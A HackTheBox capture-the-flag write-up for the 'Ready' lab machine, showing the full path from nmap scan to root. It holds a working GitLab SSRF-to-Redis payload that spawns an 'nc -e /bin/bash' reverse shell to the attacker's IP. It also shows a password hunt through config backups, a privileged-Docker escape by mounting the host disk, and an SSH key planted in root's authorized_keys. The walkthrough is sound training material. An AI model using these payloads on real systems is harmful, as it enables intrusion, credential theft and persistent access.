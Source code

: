 ```yaml
---
title: "HackTheBox Write-up&mdash;Ready"
date: 2021-04-12
---
```


This machine has IP 10.10.10.220.

Let's use `nmap` to enumerate the ports available to us:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 19:36 NZST
Nmap scan report for 10.10.10.220
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.48 seconds
```

Immediately I see that there is another gitlab server running on port `5080` (as in Laboratory)...but I am still working on that machine too (today I started a bunch of different machines).

I go to `http://ready:5080/` and it asks me to sign in.  I try to make an account but I get a `422` error.

I found [this](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) exploit after looking up GitLab exploits on Google.  The latter page shows a very cool video on how (for a particular version of GitLab), SSRF (server-side request forgery) can turn into RCE (remote code execution) via Redis.  Apparently it uses a special IPV6 to embed an IPV4 here: `0:0:0:0:0:ffff:127.01.1`

Trying again to make an account, I succeed.  I am now signed in, and I make a new project.  I import project by URL, and see if the following URL works (using the aforementioned IPV6):
```
git://[0:0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf.git
```

Before hitting "create", let's open up Burp Suite and intercept this.  Now, from [here](https://github.com/jas502n/gitlab-SSRF-redis-RCE#burpsuite-request) we find a Burp Suite exploit that involves changing the `import_url` body parameter to
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/

 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.14.239 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec

 exec

/ssrf.git
```

Before sending it, start up netcat:
```bash
nc -nvlp 1234
```

Now send it to repeater and go, and we find that our netcat window has a reverse shell.  Let's do the usual steps of making this shell more stable:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm-colors
```

```bash
$ nc -nvlp 1234
Connection from 10.10.10.220:33452
python3 -c "import pty;pty.spawn('/bin/bash')"
git@gitlab:~/gitlab-rails/working$ export TERM=xterm-colors
export TERM=xterm-colors
git@gitlab:~/gitlab-rails/working$
```

Great.  We are glad this works because we didn't actually have any confirmation that this version is before the 11.4.8 patch.  Let's see where we are in the machine:

```bash
git@gitlab:~/gitlab-rails/working$ pwd
pwd
/var/opt/gitlab/gitlab-rails/working
git@gitlab:~/gitlab-rails/working$ echo $HOME
echo $HOME
/var/opt/gitlab
git@gitlab:~/gitlab-rails/working$ ls /home
ls /home
dude
git@gitlab:~/gitlab-rails/working$ ls /home/dude
ls /home/dude
user.txt
git@gitlab:~/gitlab-rails/working$ cat /home/dude/user.txt
cat /home/dude/user.txt
e1e3************************7682
git@gitlab:~/gitlab-rails/working$ whoami
whoami
git
```

So, despite being the user `git`, we have collected `dude`'s user flag.

We look for a plain-text passowrd:
```bash
find / -type f | while IFS= read -r file; do grep -i password "$file" && echo -e "\u001b[1;38m$file\u001b[0;38m\n\n"; done
```

After a bit of digging, we find a folder `/opt/backup` that contains a plain-text password: `grep -i password /opt/backup/gitlab.rb | grep smtp | awk -F'=' '{print $2}' | sed 's/[[:space:]]*"//g'`.

We can now run `su root` using the aforementioned `smtp_password`, and now we are logged in as root!

But we ls the `/root` directory and don't find anything.  If you will recall, we saw, in the `/opt/backup` directory, a `docker-compose.yml` file.  I think we are inside a docker container, not the actual computer.

To get out of a docket container, I found [this](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) exploit:
```bash
cd /tmp; mkdir test;  mount /dev/sda2 /tmp/test; cat /tmp/test/root/root.txt
...
b7f9************************c2b3
```

But we haven't actually become root yet (though we are functionally root and have root access to everything).  To do this, we need to create a new `ssh` key on *your* machine, using `ssh-keygen`.  Now copy this (`cat ~/.ssh/id_rsa.pub` | pbcopy`) and, on the host machine, run
```bash
# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfa3l1lcRiEwk3/HoXukpmecOH0O8HoAknkB2ux6mwN8L2h88dQdbsfeLBIBxYdJAk8BUxZpuKxbz/sAaY2OgT2Pk4e+z3ah/ldI7NJmFyJBXdeFCBk21p05rpA36ODmidIGVO+PLwLZH1l7DHWvJTkuuRl5HVxID2cE6oJZyVmzKMaTKbqjwGdIpgt6VACCOUmG2gE71d3LFttcKFVo3BB5n9uJdXJfIXGWmyvcgEF8IriZRpZMl1qHGDgPH56uAySZVYwtCStWl8dXTZKX4Uo2VgzGwH36SZ2Oyyw0I+oPfo2IE3uTFrKgujdzvnVzYRI7FiYgFMGhAHIEhkGj5R jakeireland@jake-mbp2017-6917.local' >> /tmp/test/root/.ssh/authorized_keys
```

Now run (from *your* machine)
```bash
ssh -i id_rsa root@10.10.10.220
```

Now you are in!
```bash
root@ready:~# cat /root/root.txt
b7f9************************c2b3
```
